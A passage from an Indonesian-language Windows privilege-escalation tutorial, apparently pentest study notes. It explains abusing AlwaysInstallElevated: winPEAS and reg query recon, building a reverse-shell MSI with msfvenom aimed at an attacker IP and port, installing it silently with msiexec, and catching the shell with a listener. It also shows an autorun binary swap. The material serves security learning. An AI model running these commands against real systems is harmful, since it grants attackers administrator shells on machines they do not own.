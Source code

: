 Lalu copy file `reverse.exe` ke direktori `C:\Program Files\Autorun Program` dan rename menjadi `program.exe`

Lalu restart windows

### AlwaysInstallElevated
File berformat MSI adalah sebuah package yang digunakan untuk install aplikasi. File ini dijalankan dengan permission sesuai dengan user yang menjalankan. Windows mengizinkan installer ini untuk dijalakan dengan user administrator. Artinya kita bisa membuat malicious MSI yang berfungsi untuk reverse shell.

Hal yang perlu diperhatikan untuk mengetahui celah ini adalah melalui registry, kita harus memastikan bahwa konfigurasi `AlwaysInstallElevated` yang terdapat pada:
`HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer` dan `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer` bernilai 1, jika registry ini disabled dan bernilai 0 maka expoit tidak akan bekerja

#### Recon
```
winPEASany.exe quiet windowscreds
```
Yang perlu diperhatikan dari output winpeas adalah sebagai berikut :
```
 [+] Checking AlwaysInstallElevated(T1012)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```
Yang artinya `AlwaysInstallElevated` enabled dan kita bisa menjalankan exploit MSI. Untuk melakukan verifikasi, kita bisa gunakan command 

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

dan 

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Hasilnya
```
AlwaysInstallElevated    REG_DWORD    0x1
```

`0x1` merupakan nilai hexa yang jika dikonversi ke desimal adalah 1
Oke, selanjutnya kita buat file malicious MSI yang berisi reverse shell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4545 -f msi -o reverse.msi
```
Lalu upload ke Windows target dan install aplikasi tersebut menggunakan privilege admin. 
```
msiexec /quiet /qn /i reverse.msi
```
Jangan lupa jalankan listener di attacker machine agar bisa menerima koneksi dari target. 

## Passwords
Terkadang admin menyimpan password di direktori tertentu, kita harus nyari manual disini. 
